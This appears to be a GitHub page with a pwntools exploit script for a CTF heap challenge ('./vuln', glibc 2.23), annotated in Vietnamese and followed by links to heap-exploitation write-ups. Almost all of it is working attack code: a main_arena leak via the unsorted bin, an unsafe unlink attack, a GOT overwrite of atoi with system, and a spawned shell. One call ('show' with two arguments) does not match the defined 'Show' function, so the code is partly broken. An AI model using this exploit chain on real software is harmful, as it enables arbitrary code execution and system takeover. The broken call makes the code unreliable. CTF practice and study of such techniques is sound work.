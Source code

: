 # Container images, text,... for my Github.

```python 
#!/usr/bin/env python3 

store = 0x6020e0
storeSize = 0x602140

from pwn import *

elf = ELF('./vuln')
libc = ELF('./libc.2.23.so')
context.log_level = 'DEBUG'

p = elf.process()


gdb.attach(p, '''
	b *createHeap
	b *showHeap
	b *deleteHeap
	b *editHeap
''')

def Create(index, size, data):
        p.sendlineafter(b'>', str(1))
        p.sendlineafter(b'Index:', str(index))
        p.sendlineafter(b'size:', str(size))
        p.sendlineafter(b'data:', data)

def Show(index):
        p.sendlineafter(b'>', str(2))
        p.sendlineafter(b'Index:', str(index))
        p.recvuntil(b'Data = ')
        leak = p.recvuntil(b'\n')
        return u64(leak.replace(b'\n', b'').ljust(8, b'\x00'))

def Edit(index, newSize, data):
        p.sendlineafter(b'>', str(3))
        p.sendlineafter(b'index:', str(index))
        p.sendlineafter(b'newsize:', str(newSize))
        p.recvline()
        p.sendline(b'y')
        p.sendlineafter(b'data:', data)

def Delete(index):
        p.sendlineafter(b'>', str(4))
        p.sendlineafter(b'index:', str(index))


# leak main_arena with unsorted bin
## ngăn chặn chunk consolidate
Create(0,0x68,b'a')
Create(1,400,b'a')
Create(2,0x68,b'a')
Delete(1)

# fill các null byte để có thể in địa chỉ main arena ra được
Edit(0,0x70,b'a'*0x70)  
main_arena = u64(show(0,b'a'*0x70).strip().ljust(8,b'\x00'))
libc.address = main_arena - 0x39bb78
log.info('libc.address: ' + hex(libc.address))
Edit(0,0x70,b'a'*0x68 + p64(0x1a1))    
 # sau khi leak xong cần sửa lại size của chunk đằng sau để có thể free được
Create(1,400,b'a')


# unsafe unlink attack
Create(3,0x88,b'a')
Create(4,0x88,b'a')
payload = b''
payload += p64(0) + p64(0) 
payload += p64(store + 3*8 -8*3) + p64(store + 3*8 -8*2) 
payload += b'a'*0x60 + p64(0x80) + p64(0x90)
Edit(3,0x90, payload)
Delete(4)

# At this point we can use "store" to overwrite itself to point to an arbitrary location
Edit(3,0x90, p64(0) + p64(0) + p64(0) + p64(elf.got['atoi']))

# modify atoi got to system
Edit(3,0x90,p64(libc.symbols['system']))
p.send(b'/bin/sh\x00')


p.interactive()

```

https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/

https://dangokyo.me/2017/12/14/0ctf-2016-quals-pwn-zerostorage-write-up/

https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/unsorted_bin_attack/

https://www.lazenca.net/pages/viewpage.action?pageId=51970214

https://lantern.cool/note-pwn-free-hook/#参考

https://ctf-wiki.org/pwn/linux/user-mode/environment/

https://one2bla.me/the-dark-arts/common-vulnerabilities/unsortedbin-attack.html


